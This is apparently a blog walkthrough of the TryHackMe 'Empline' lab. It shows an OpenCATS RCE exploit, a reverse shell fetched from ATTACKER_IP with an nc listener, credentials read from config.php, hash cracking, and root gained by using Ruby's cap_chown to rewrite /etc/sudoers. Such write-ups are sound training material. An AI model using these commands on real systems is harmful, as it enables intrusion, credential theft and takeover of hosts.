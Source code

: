 ```yaml
---
layout: post
title:  "Empline Writeup"
date:   2024-05-23 13:15:45 -0400
categories: writeup tryhackme
tags: writeup tryhackme medium
---
```

## Introduction
This is a medium challenge box on
[TryHackMe](https://tryhackme.com/r/room/empline){:target="_blank"}{:rel="noopener noreferrer"}
> This is what a hint will look like!

## Enumeration
### Port Scan
As always let's start with a port scan
```bash
rustscan -a VICTIM_IP -- -A -oA scan -sC
```
![rust-scan](/images/empline/empline-rustscan1.png)
![rust-scan2](/images/empline/empline-rustscan2.png)

There are only two ports open
- 22: SSH
- 80: HTTP

### Subdomains
> Did you fully investigate the homepage?

By investigating the web page source on port 80 
we see the following

![subdomain](/images/empline/empline-subdomain.png)

Let's add this to `/etc/hosts` so we can access the new
subdomain

```
VICTIM_IP job.empline.thm empline.thm
```

![jobs-home](/images/empline/empline-jobs-empline-home.png)

## Initial Foothold
> Are there public exploits for this service?

Let's check searchsploit for some exploits

```bash
searchsploit opencat
```

![searchsploit](/images/empline/empline-searchsploit.png)

Remote code execution is enticing, let's pull it and 
read the source

```bash
searchsploit -m 50585
cat 50585.sh
```

![exploit-src](/images/empline/empline-exploit-source.png)

Basically we provide a target and it'll upload a shell! 
Let's try it out

```bash
sh 50585.sh http://job.empline.thm/
```

![shell](/images/empline/empline-shell1.png)

It works! Only issue is we can't change directories and 
this isn't a full shell. For a better experience I'll 
upload a 
[php reverse shell](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}

```bash
# attacker machine, with shell.php in this directory
python3 -m http.server 80

# victim machine
wget http://ATTACKER_IP/shell.php
pwd
# /var/www/opencats/upload/careerportaladd

# attacker, listen
nc -lvnp 4444
```

We can see the directory `/upload/careerportaladd` so 
let's append that to the URL to run the shell

```
http://job.empline.thm/upload/careerportaladd/shell.php
```

Visit this site and we'll have a shell!

![php shell](/images/empline/empline-www-data-shell.png)

Stabilize and upgrade the shell with python3

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Horizontal Escalation
> What other places could credentials be stored?

Now we'll investigate php config files

```bash
cat /var/www/opencats/config.php | grep DATABASE
```

![db-creds](/images/empline/empline-db-creds.png)

With these creds we can check for available usernames 
and passwords

```bash
mysql -u james -p
```

```sql
use opencats;
select user_name, password from user;
```

![db-dump](/images/empline/empline-db-dump.png)

Now lets check if any of these hashes have been 
cracked before using 
[this website](https://crackstation.net/){:target="_blank"}{:rel="noopener noreferrer"}

![cred-crack](/images/empline/empline-cracks.png)

We have a hit! This password is reused by george so let's 
switch accounts and continue

![george-shell](/images/empline/empline-george-shell.png)

## Root
> Are there any files with interesting permissions 
> or capabilities?

```bash
getcap -r / 2>/dev/null
```

![get-cap](/images/empline/empline-getcap.png)

Ruby has the cap_chown capability which allows it to 
change the ownership of files! To abuse this I referred to
[hacktricks for a template](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown){:target="_blank"}{:rel="noopener noreferrer"}

Let's give sudo permissions to george. First make 
`/etc/sudoers` writable by george

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/etc/sudoers")'
```

Add this to `/etc/sudoers`

```
%george ALL=(ALL:ALL) ALL
```
![sudoers-edit](/images/empline/empline-george-sudoers.png)

The sudoers file needs to be owned by root to function 
correctly, so let's revert these permissions

```bash
ruby -e 'require "fileutils"; FileUtils.chown(0, 0, "/etc/sudoers")'
```

If everything is set up correctly we should now be able 
to run `sudo` as george

```bash
sudo bash
```

![root-shell](/images/empline/empline-root-shell.png)

## Recap
Homepage inspection leads to a subdomain hosting a career 
service vulnerable to remote code execution. This 
initial foothold gives us access to php configuration 
files with database credentials. Horizontal escalation 
is achieved by cracking passwords from the database. 
Ruby is given the change ownership capability allowing 
us to modify system files, giving our user root 
permissions.
